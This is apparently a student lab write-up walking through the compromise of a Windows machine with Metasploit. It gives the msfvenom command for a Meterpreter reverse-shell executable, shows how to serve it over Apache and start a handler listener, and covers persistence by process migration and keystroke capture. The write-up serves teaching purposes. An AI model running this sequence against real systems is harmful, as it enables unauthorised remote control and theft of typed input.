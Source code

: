 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/6a5083d3-4018-4947-9ffe-4514d495cdaa)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/3c9d11f8-1405-47b1-86ef-01b0e2f98b32)




copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/5faf8ffb-edae-4335-adfa-a670872b0a96)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/d6c03950-6850-49c5-a394-e3262b5afe09)



Check the status of apache2
![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/dddd9bf3-c9fc-4d00-a886-3bfa810671d6)



###Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/86851cd6-9edf-4b8d-8a8a-8501e1c5cf2f)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/b4e0b3a3-9f0e-4a94-81ba-ecd5b66bbfc0)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/e28df4ef-e42c-423a-92aa-f7625f4d7f0a)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/b9382142-3163-4d46-b680-7bdfa26f9c3e)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/f97b1777-43d4-49bd-b6b4-4a3fa8fdb8e0)



keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/MohammedFaizal05/Compromising-windows-using-Metasploit/assets/120553195/9eb827fc-fae8-4cc6-b620-a398c98ded2f)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
